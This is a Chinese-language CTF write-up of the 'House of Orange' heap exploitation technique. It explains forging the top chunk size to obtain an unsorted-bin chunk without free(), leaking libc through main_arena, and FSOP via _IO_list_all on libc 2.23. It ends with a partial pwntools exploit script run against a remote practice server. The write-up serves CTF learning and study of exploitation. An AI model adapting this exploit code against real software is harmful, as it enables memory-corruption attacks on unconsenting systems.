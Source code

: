 这时就发现问题了。之前我做的题最多是edit功能缺席，free功能一直是好朋友和主力，现在直接没这个选项了。又是学习[wp](https://www.cnblogs.com/LynneHuan/p/14696780.html)的一天。根据[ctf wiki](https://ctf-wiki.org/en/pwn/linux/user-mode/heap/ptmalloc2/house-of-orange/)所说，House of Orange 的核心在于在没有 free 函数的情况下得到一个释放的堆块 (unsorted bin)，进而泄露基地址。这种操作的原理简单来说是当前堆的 top chunk 尺寸不足以满足申请分配的大小的时候，原来的 top chunk 会被释放并被置入 unsorted bin 中，通过这一点可以在没有 free 函数情况下获取到 unsorted bins。我们这道题只能申请4次堆块，top chunk正常来说不会大小不够，但是我们可以溢出啊！通过溢出漏洞伪造top chunk size不就行了？注意伪造时要注意下面4点：

1. 伪造的 size 必须要对齐到内存页
2. size 要大于 MINSIZE(0x10)
3. size 要小于之后申请的 chunk size + MINSIZE(0x10)
4. size 的 prev inuse 位必须为 1

这里的对齐是以内存页为单位，通常是4kb。比如有一个top chunk 的 size 大小是 20fe1，起始位置是0x602020，通过计算即可得知 0x602020+0x20fe0=0x623000 是对于 0x1000（4kb）对齐的。因此我们伪造的 fake_size 可以是 0x0fe1、0x1fe1、0x2fe1、0x3fe1 等对齐4kb的 size。伪造完成后，我们申请一个比top chunk size大的chunk就能让原有的top chunk进入unsorted bin了。接着再申请一个堆块，这个堆块会从unsorted bin中已有的chunk里切割给我们，获得的chunk会带着宝贵的main_arena地址信息，此时就能泄露基址了。

[ctf-wiki](https://ctf-wiki.org/en/pwn/linux/user-mode/io-file/fsop/)里有讲FSOP。[FSOP](https://phot0n.com/2022/09/06/%E9%AB%98%E7%89%88%E6%9C%AC%E7%9A%84%E5%A0%86%E5%88%A9%E7%94%A8%E4%B8%8EFSOP/)的核心思想就是劫持_IO_list_all 的值来伪造链表和其中的_IO_FILE 项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。这个东西有很多种触发方式，这里就针对这道题的环境：64位+libc-2.23.so，利用`malloc_printerr->_libc_message->abort->_IO_flush_all_lockup->_IO_overflow`这条调用链。这条链的硬性要求为`fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base`。习惯把笔记做exp上，直接放exp。

```python
from pwn  import *
import functools

sh = remote("node4.buuoj.cn",29909)
LOG_ADDR = lambda x, y: log.success('{} ===> {}'.format(x, hex(y)))
int16 = functools.partial(int, base=16)
context.arch="amd64"
context.os="linux"
context.endian="little"

main_arena_offset = 0x3c4b20

def build_house(length:int, name, price:int=0xff, color:int=1):
    sh.sendlineafter("Your choice : ", "1")
    sh.sendlineafter("Length of name :", str(length))
    sh.sendafter("Name :", name)
    sh.sendlineafter("Price of Orange:", str(price))
    sh.sendlineafter("Color of Orange:", str(color))
    sh.recvuntil("Finish\n")

def see_house():
    sh.sendlineafter("Your choice : ", "2")
    name_msg = sh.recvline_startswith("Name of house : ")
    price_msg = sh.recvline_startswith("Price of orange : ")
    log.success("name_msg:{}\nprice_msg:{}".format(name_msg, price_msg))
    return name_msg, price_msg


def upgrade_house(length:int, name, price:int=0xff, color:int=1):
    sh.sendlineafter("Your choice : ", "3")
    sh.sendlineafter("Length of name :", str(length))
    sh.sendafter("Name:", name)
    sh.sendlineafter("Price of Orange: ", str(price))
    sh.sendlineafter("Color of Orange: ", str(color))
    sh.recvuntil("Finish\n")

build_house(0x10, "aaaa")

# change the size of top_chunk to 0xfa1
upgrade_house(0x100, b"a" * 0x38 + p64(0xfa1))

# house of orange
build_house(0x1000, "cccc")
```